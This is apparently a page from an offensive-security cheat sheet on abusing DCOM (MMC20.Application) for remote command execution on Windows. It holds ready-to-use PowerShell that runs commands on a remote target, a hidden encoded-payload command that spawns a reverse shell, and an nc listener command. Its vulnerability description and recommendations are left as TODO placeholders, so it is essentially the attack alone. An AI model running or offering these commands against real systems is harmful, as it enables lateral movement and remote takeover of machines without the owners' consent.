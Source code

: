# DCOM Abuse
---

## Vulnerability

TODO: Describe the vulnerability here.

## Prerequisites

* Local administrator rights on the target machine.

## Exploit

From an elevated PowerShell prompt.

```powershell
# Instanciate Microsoft Management Console on remote target.
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$target"))

# Execute remote command
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c $command","7")
```

Similar to [WinRM Abuse](/windows/winrm/), you can spawn a reverse shell on the target machine.

```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e $payload","7")
```

Don’t forget to run your listener first.

```bash
nc -lnvp $lport
```

## Recommendations

- [ ] TODO: List recommendations here.
